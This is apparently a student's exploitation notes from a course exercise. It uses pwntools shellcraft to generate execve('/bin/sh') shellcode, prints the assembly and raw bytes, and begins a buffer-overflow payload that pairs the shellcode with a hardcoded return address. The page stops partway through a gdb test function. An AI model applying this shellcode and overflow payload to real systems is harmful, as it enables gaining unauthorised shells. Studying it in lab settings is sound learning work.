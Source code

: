# Shellcode Using Shellcraft
Pwntools has a handy-dandy little tool for making this shit
....will it fit in the buffer???? (I'm thinking no)
###### Build and print shllcode:
```python
def scraftPld():
	# Set up shellcode
	print(shellcraft.sh())
	sCode = asm(shellcraft.sh())
	print(sCode)
	print("Shellcode Length = ", len(sCode))
```
###### Results:
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3 School_Pwn1.py
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80

b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
Shellcode Length =  44
```

So already, our shellcode is longer than the buffer.
There are ways around it but...hmmm


Okay, for glory's sake...what happens if we just send it our shellcode?
```python
def scraftPld():
	# Set up shellcode
	sCode = asm(shellcraft.sh())
	# Calculate the remaining buffer room
	#rem = 39 - len(sCode)
	#print("rem = ", rem)
	#pad = b'A'*rem
	addr = p64(0x7fffffffddb0)
	#return sCode + pad + addr
	return sCode + addr

def testPld():
	p =  process('/bin/bash')
	p.sendline('gdb ./school -q')
```